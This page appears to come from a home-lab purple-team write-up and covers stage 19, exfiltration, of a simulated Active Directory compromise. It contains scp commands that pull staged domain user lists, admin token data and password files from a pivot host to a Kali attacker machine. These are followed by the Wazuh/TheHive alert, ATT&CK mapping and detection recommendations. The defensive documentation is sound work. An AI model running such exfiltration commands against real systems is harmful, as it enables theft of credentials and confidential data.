


# Stage 19 — Exfiltration

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Stage 19](../../04-Investigation/Stages/stage-19-exfiltration.md)  
> **Evidence:** [attack](../Attack-Screenshots/56.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/19.png)

## Objective

Exfiltrate the harvested domain intelligence, administrative token dumps, and confidential endpoint documents from the intermediate Linux pivot host (DVWA) out of the enterprise perimeter to the attacker's external command-and-control system using Secure Copy Protocol (SCP) over an encrypted SSH channel.

## Commands

```bash
# Execute from external attacker machine (Kali Linux)
# Exfiltrate Active Directory domain user roster
scp root@192.168.56.30:/tmp/domain_users.txt /tmp/

# Exfiltrate administrative privilege and security context information
scp root@192.168.56.30:/tmp/admin_info.txt /tmp/

# Exfiltrate consolidated workstation sensitive data (financials and credentials)
scp root@192.168.56.30:/tmp/sensitive_data.txt /tmp/
```

## What happened

Following the successful collection and staging of intelligence from both the Domain Controller and the Windows 10 workstation in Stage 18, the attacker prepared to transfer the staged files off the enterprise network. The consolidated artifacts resided in the `/tmp` directory of the dual-homed DVWA pivot server (`192.168.56.30`), which previously had root-level SSH access established during Stage 08.

Operating directly from the external attacker command station (`Kali Linux`, IP `192.168.232.135`), the adversary leveraged `scp` (Secure Copy Protocol) over TCP port 22 to pull the staged intelligence files across the network boundary into the attacker's local `/tmp` directory.

The exfiltration was performed in three sequential operations:
1. `scp root@192.168.56.30:/tmp/domain_users.txt /tmp/`: Transferred the complete Active Directory domain user roster (63 KB) at 6.9 MB/s.
2. `scp root@192.168.56.30:/tmp/admin_info.txt /tmp/`: Transferred the administrative privilege, SID, and group context report (6,522 bytes) at 1.2 MB/s.
3. `scp root@192.168.56.30:/tmp/sensitive_data.txt /tmp/`: Transferred the aggregated confidential corporate records (`financials.txt` and `passwords.txt`, 31 bytes) at 8.9 KB/s.

Each `scp` invocation spawned an authenticated SSH session on the DVWA host. While the SSH encryption enveloped the payload, preventing deep packet inspection devices from reading the file contents in transit, the clustered authentication attempts and outbound data flow generated distinct host-level security telemetry.

## Evidence

### Attack Execution Screenshots


*Figure 19.1: Successful exfiltration of domain_users.txt, admin_info.txt, and sensitive_data.txt via SCP to Kali attacker machine.*

### Detection & Alert Screenshots


*Figure 19.2: TheHive Alert 19 capturing rapid successive SSH successful authentications for root from attacker IP 192.168.232.135.*

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Linux SSH | sshd: authentication success (6 sessions within 1 second) | 5715 | `Logon Activity — ROOT @ 192.168.232.135` | Medium (2) | Detected |

> [!NOTE]
> **Detection Assessment:** The SSH transport layer successfully encrypted the payload content, meaning network intrusion signatures looking for plaintext keyword matches (e.g., "passwords", "financials") did not fire on the egress traffic. However, Wazuh's host-level monitoring on the DVWA pivot recorded the anomalous burst of 6 rapid root SSH authentications within a 574-millisecond window (`12:47:30.437` to `12:47:31.011`), immediately triggering TheHive alert grouping for investigative triage.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Exfiltration | Exfiltration Over C2 Channel | | T1041 |
| Exfiltration | Exfiltration Over Alternative Protocol | Exfiltration Over Symmetric Encrypted Non-C2 Protocol | T1048.002 |
| Command and Control | Encrypted Channel | Asymmetric Cryptography / SSH | T1573.002 |

## Detection opportunities

- **High-Frequency SSH Authentication Burst Detection:** Alert when a single external IP address initiates multiple successful SSH sessions within a brief time window (e.g., >3 logins within 2 seconds).
- **Abnormal Outbound Data Transfer Volume:** Configure NetFlow/Zeek or Suricata alerts for anomalous outbound data volume transfers from internal web servers to non-standard or external subnets.
- **File Read Auditing on Staging Directories:** Utilize Linux `auditd` to monitor read events (`-w /tmp/ -p r`) on temporary directories by SSH child processes (`scp`, `sftp-server`).
- **Pivot Host Egress Filtering:** Restrict internal pivot server egress traffic at the firewall layer to strictly authorized destination ports, disabling direct outbound SSH access to external networks.

## Notes

- **Attacker Egress Destination:** `192.168.232.135` (Kali Linux)
- **Source Pivot Host:** `192.168.56.30` (DVWA)
- **Transport Mechanism:** SCP over OpenSSH (TCP port 22)
- **Exfiltrated Assets:**
  - `domain_users.txt` — 63 KB (Active Directory domain users)
  - `admin_info.txt` — 6,522 bytes (Privilege and token inventory)
  - `sensitive_data.txt` — 31 bytes (Confidential financials and plaintext passwords)
- **Impact Assessment:** Full loss of confidentiality regarding Active Directory domain structure and target workstation credentials.
